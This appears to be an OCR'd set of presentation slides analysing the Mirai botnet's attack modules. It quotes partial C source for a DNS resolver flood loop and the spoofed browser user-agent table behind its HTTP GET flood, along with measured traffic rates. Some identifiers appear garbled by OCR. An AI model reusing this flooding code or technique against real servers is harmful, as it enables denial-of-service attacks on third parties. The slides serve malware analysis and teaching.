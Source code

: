 -------------------------------------------------

-> # Mirai <-

-> ## attacks!? <-

* DNS resolver flood
    - floods the target's DNS server
        + bot performs a lookup for _$STRING.domain.com_
        + input rate: about *190Kb/sec*
    - the attack will come from legitimate DNS resolvers
<br>

~~~ {.numberLines}
ipv4_t dns_resolver = get_dns_resolver();

dnsh->id = htons(dns_hdr_id);
dnsh->opts = htons(1 << 8); // Recursion desired
dnsh->qdcount = htons(1);

curr_lbl = qname;
util_memcpy(qname + 1, domain, domain_len + 1);

dnst = (struct dns_question *)(qname + domain_len + 2);
dnst->qmenu = htons(PROTO_DNS_Qmenu_A);
dnst->qclass = htons(PROTO_DNS_QCLASS_IP);

while (TRUE) {
    ...
    
    sendto(fd, pkt, sizeof (struct iphdr) + sizeof (struct udphdr) + 
    sizeof (struct dnshdr) + 1 + data_len + 2 + domain_len + 
    sizeof (struct dns_question), MSG_NOSIGNAL, (struct sockaddr *)
    &targs[i].sock_addr, sizeof (struct sockaddr_in));
}
~~~~~~~~~~~~~~~~~~

-------------------------------------------------

-> # Mirai <-

-> ## attacks!? <-

* HTTP flood
    - GET attack
        + input rate: about *500Kb/sec*
        + output rate: about *12Mb/sec* (!!)
    - content is the basic Apache2 welcome page
    - incrementing source ports
<br>

~~~ {.numberLines}
#define TABLE_HTTP_ONE   47  /* "Mozilla/5.0 (Windows NT 10.0; WOW64) 
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 
Safari/537.36" */
#define TABLE_HTTP_TWO   48  /* "Mozilla/5.0 (Windows NT 10.0; WOW64) 
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 
Safari/537.36" */
#define TABLE_HTTP_THREE 49  /* "Mozilla/5.0 (Windows NT 6.1; WOW64) 
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 
Safari/537.36" */
#define TABLE_HTTP_FOUR  50  /* "Mozilla/5.0 (Windows NT 6.1; WOW64) 
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 
Safari/537.36" */
#define TABLE_HTTP_FIVE  51  /* "Mozilla/5.0 (Macintosh; 
Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 
(KHTML, like Gecko) Version/9.1.2 Safari/601.7.7" */
~~~~~~~~~~~~~~~~~~